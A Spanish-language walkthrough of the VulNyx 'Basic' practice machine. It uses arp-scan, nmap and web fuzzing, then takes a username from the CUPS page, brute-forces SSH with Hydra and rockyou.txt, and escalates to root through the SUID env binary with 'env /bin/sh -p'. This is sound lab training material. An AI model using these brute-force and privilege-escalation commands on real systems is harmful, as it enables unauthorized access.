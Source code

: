 # Ejercicio Práctico Maquina Basic – Hacking Fuerza Bruta + Escalada de Privilegios Binarios SUID

Maquinas que vamos a utilizar Kali Linux y Basic [https://vulnyx.com/#basic](https://vulnyx.com/#basic)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2034.png)

```bash
ping -c 1 10.0.3.22 
```
 
![image.png](./imagenes/image%2035.png)

Es una maquina Linux.

```bash
nmap -p- -sS -sV -sC --open -min-rate=2000 -n -vvv -Pn 10.0.3.22
```

![image.png](./imagenes/image%2036.png)

`22/tcp  open  ssh     syn-ack ttl 64 OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)`

`80/tcp  open  http    syn-ack ttl 64 Apache httpd 2.4.56 ((Debian))`

`631/tcp open  ipp     syn-ack ttl 64 CUPS 2.3` **→ Servicio de impresoras en Linux**

- Miramos en el navegador web el puerto 80
    
    ![image.png](./imagenes/image%2037.png)
    

- Probamos a hacer fuzzing web con distintas herramientas.
    
    ```bash
    gobuster dir -u [http://10.0.3.22](./imagenes/http://10.0.3.22/) -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    ```
    
    ![image.png](./imagenes/image%2038.png)
    
    ```bash
    dirb [http://10.0.3.22](./imagenes/http://10.0.3.22) 
    ```
    
    ![image.png](./imagenes/image%2039.png)
    

```bash
dirsearch -u http://10.0.3.22/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

![image.png](./imagenes/image%2040.png)

**No encontramos nada.**

- Enumeramos el **puerto 631**. Utilizando el navegador web,
    
    `http://10.0.3.22:631/`
    
    ![image.png](./imagenes/image%2041.png)
    

Miramos si encontramos algún nombre de usuario entre las pestañas.

![image.png](./imagenes/image%2042.png)

Hay lo tenemos un usuario llamado “**dimitri**”.

- Hemos visto en el escaneo de nmap que tenemos un puerto SSH.
- Vamos a hacerle un ataque de fuerza bruta con Hydra aprovechando que tenemos un posible nombre de usuario.
    
    ```bash
    hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://10.0.3.22 
    ```
    
    ![image.png](./imagenes/image%2043.png)
    
- Nos conectamos al SSH con las credenciales obtenidas.
    
    ```bash
    ssh dimitri@10.0.3.22  
    ```
    
    ![image.png](./imagenes/image%2044.png)
    
- Hacemos escalada de privilegios
    - Probamos con la enumeración de binarios SUID
        
        `find / -perm -4000 2>/dev/null`
        
        ![image.png](./imagenes/image%2045.png)
        

- Utilizamos la web de [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) para ayudarnos a identificar el binario vulnerable. En este caso `/usr/bin/env`.
    
    ![image.png](./imagenes/image%2046.png)
    
    `env /bin/sh -p`
    
    `whoami`
    
    ![image.png](./imagenes/image%2047.png)